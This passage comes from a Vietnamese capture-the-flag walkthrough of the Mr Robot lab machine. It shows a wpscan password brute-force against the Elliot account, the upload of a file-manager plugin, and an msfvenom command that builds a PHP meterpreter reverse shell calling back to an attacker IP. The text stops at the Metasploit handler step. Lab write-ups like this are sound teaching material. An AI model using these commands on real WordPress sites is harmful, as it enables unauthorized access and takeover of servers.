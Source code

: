 <pre><code class="lang-bash"><span class="hljs-comment">wpscan</span> <span class="hljs-literal">-</span><span class="hljs-literal">-</span><span class="hljs-comment">url</span> <span class="hljs-comment">192</span><span class="hljs-string">.</span><span class="hljs-comment">168</span><span class="hljs-string">.</span><span class="hljs-comment">226</span><span class="hljs-string">.</span><span class="hljs-comment">158</span> <span class="hljs-literal">-</span><span class="hljs-literal">-</span><span class="hljs-comment">passwords</span> <span class="hljs-comment">/home/user/Downloads/wordlist</span><span class="hljs-string">.</span><span class="hljs-comment">dic</span> <span class="hljs-literal">-</span><span class="hljs-literal">-</span><span class="hljs-comment">usernames</span> <span class="hljs-comment">Elliot</span> <span class="hljs-literal">-</span><span class="hljs-literal">-</span><span class="hljs-comment">wp</span><span class="hljs-literal">-</span><span class="hljs-comment">content</span><span class="hljs-literal">-</span><span class="hljs-comment">dir</span> <span class="hljs-comment">wp</span><span class="hljs-literal">-</span><span class="hljs-comment">content</span>
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-10.png#full" alt="mr-robot-10.png"></p>
<p>Chúng ta đã tìm được mật khẩu của tài khoản Elliot. Bây giờ chúng ta thử đăng nhập vào trang web và kết quả như hình dưới đây:</p>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-11.png#full" alt="mr-robot-11.png"></p>
<h2 id="buoc-6-upload-shell">Bước 6: Upload Shell</h2>
<p>Để chiếm quyền máy chủ Mr Robot, chúng ta cần phải thực hiện việc tải lên shell cho phép thực hiện các khai thác đến máy chủ. Đầu tiên, chúng ta cần cài đặt một <strong>plugin</strong> có tên là <strong>File manager</strong> (Do ở đây Elliot đã là admin nên có thể cài đặt được bất kỳ plugin nào).</p>
<p>File manager cho phép chúng ta quản lý thư mục và file dễ dàng hơn trên website. Trên menu bên phải trỏ vào <strong>Plugin</strong> và chọn phần <strong>Add new</strong> để tiến hành cài đặt mới plugin. Ở ô <strong>Search Plugins</strong>, gõ vào ô tìm kiếm là <strong>File manager</strong>. Nó sẽ có dạng giống như hình bên dưới đây:</p>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-12.png#full" alt="mr-robot-12.png"></p>
<p>Nhấn vào nút <strong>Install Now</strong> để bắt đầu cài đặt plugin. Sau khi cài đặt xong, chuyển sang phần <strong>Installed Plugins</strong> và chọn plugin <strong>WP File manager</strong> để tiến hành <strong>Active</strong>. Tải lại trang và chọn phần <strong>File manager</strong> để kiểm tra file.</p>
<p>Chúng ta vào thư mục <strong>wp-content/uploads</strong> để tiến hành kiểm tra nội dụng trước khi thực hiện việc tải lên shell. Trong thư mục uploads, nội dung sẽ có dạng như hình dưới:</p>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-13.png#full" alt="mr-robot-13.png"></p>
<p>Để thực hiện việc tải shell, chúng ta cần phải chuẩn bị shell trước đã. Công cụ <strong>MSFvenom</strong> là sự kết hợp giữa <strong>Msfpayload</strong> và <strong>Msfencode</strong>, được đưa vào bộ công cụ pentest rất nổi tiếng đó là <strong>Metasploit</strong>.</p>
<p>Do website này sử dụng nền tảng Wordpress (ngôn ngữ <strong>Php</strong>) nên mình sẽ tạo một con shell dạng php bằng câu lệnh dưới đây:</p>
<pre><code class="lang-bash">msfvenom -p php/meterpreter/reverse_tcp LHOST=<span class="hljs-number">192.168</span><span class="hljs-number">.226</span><span class="hljs-number">.155</span> LPORT=<span class="hljs-number">4444</span> -f raw &gt; shell.php
</code></pre>
<p>Kiểm tra <strong>shell.php</strong> bằng câu lệnh sau:</p>
<pre><code class="lang-bash"><span class="hljs-keyword">cat</span> <span class="hljs-keyword">shell</span>.php
</code></pre>
<p>Về cơ bản, đoạn code này sẽ tiến hành tạo một kết nối dạng <strong>socket</strong> và cho phép thực hiện các quyền cao đối với máy chủ website. <strong>LHOST</strong> chứa địa chỉ IP của máy attacker và <strong>LPORT</strong> sẽ tiến hành kết nối thông qua port <strong>4444</strong>. Đoạn code sẽ có dạng như hình dưới đây:</p>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-14.png#full" alt="mr-robot-14.png"></p>
<p>Mở giao diện quản lý website và tiến hành tải file shell.php. Sau khi upload xong, chúng ta mở Terminal và gõ <strong>msfconsole</strong> để mở công cụ Metasploit.</p>
<h2 id="buoc-7-khai-thac-shell-bang-metasploit">Bước 7: Khai thác shell bằng Metasploit</h2>
<p>Công cụ Metasploit là một công cụ khá quen thuộc đối với các nhà bảo mật bởi vì họ hỗ trợ một lượng lớn thư viện các nền tảng và các mã lỗi khác nhau. Chúng ta sẽ tiến hành gõ một loạt các câu lệnh sau:</p>
<pre><code class="lang-bash">use exploit/multi/handler